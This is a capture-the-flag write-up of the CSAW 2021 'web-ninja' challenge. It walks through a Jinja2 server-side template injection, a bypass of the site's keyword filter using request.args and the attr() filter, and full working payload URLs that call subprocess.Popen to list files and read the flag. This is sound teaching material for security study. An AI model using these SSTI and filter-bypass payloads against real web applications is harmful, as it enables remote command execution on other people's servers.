 # web-ninja

## Description

```
Hey guys come checkout this website i made to test my ninja-coding skills.

http://web.chal.csaw.io:5000
```

## Task Analysis
The link given in the description presents us with the following webpage where the only notable page element is a field for user input:

![webpage](/CSAW-2021/web-ninja/screenshots/the_site.PNG)

When input is submitted, the page displays "Hello " followed by whatever was typed into the submission field.

I confirmed that xss injection was possible. However, this was not helpful to me since the site would not present our malicious scripts to anyone but ourselves. Switching gears, I used Burp to find that the site was built using Python 2.7, and I noted that the challenge's name, "Ninja" could potentially be hinting at the "Jinja" framework. I submitted the following to check for a SSTI vulnerability:
```
{{}}
```
The "{{}}" was not rendered, indicating it had been interpreted as a template and that there was potential for an SSTI injection. 

I used the following to confirm what framework was being used:

```
{{'7'*7}}
```
Which rendered as:
```
Hello 7777777
```
This confirmed my suspicion that Jinja2 was the framework being used. 
After attempting to access the config object using {{config.items()}} I recieved:

```
Sorry, the following keywords/characters are not allowed :- _ ,config ,os, RUNCMD, base
```
I now knew that there was a WAF to bypass.

Our goals from here were to: 
1. Find a way to bypass the WAF.
2. Create a payload that establishes RCE and allows us to look for the flag, which I suspected was likely stored either in the config object or in the page's working directory.
3. Create a payload that reads the flag and profit.

## Solution

# WAF Bypass
I found *this* guide very useful in helping me construct the following WAF bypass. 
I found that The WAF was designed to only check the contents of the "value" GET parameter. Extra paremters went unchecked, so blacklisted keywords could be included in them and then accessed as strings via the request.args object. These strings could then be passed to the ![built-in Jinja filter](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.attr) ```attr()```. The documentation tells us that ```attr()``` takes a string as an argument to "Get an attribute of an object. foo|attr("bar") works like foo.bar just that always an attribute is returned and items are not looked up..."
Using these features I could bypass the filter using urls constructed with additional get parameters like the following:

```
http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()}}&class=__class__&bas=__base__&sub=__subclasses__
```

The above url returned a list of all the subclasses of the object type, meaning I could access any class loaded in the Python environment. I used a script to search this list for the subprocess.Popen class, and found it at index 258.

# Establishing RCE

I could now use the following url execute the "ls" command and achieve RCE:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27ls%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```

The above produced the following output:

![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

# Found flag
I now knew that the flag was located in the same directory as the site's application script. This meant I could access the flag with the same technique by invoking the "cat" command:

```
response = requests.get("http://web.chal.csaw.io:5000/submit?value={{()|attr(request.args.class)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.item)(258)(%27cat flag.txt%27,shell=True,stdout=-1)|attr(%27communicate%27)()}}&class=__class__&bas=__base__&sub=__subclasses__&item=__getitem__")
```
Which produced the following:
![ls_output](/CSAW-2021/web-ninja/screenshots/ls_output.PNG)

I found the flag! - flag{m0mmy_s33_1m_4_r34l_n1nj4}
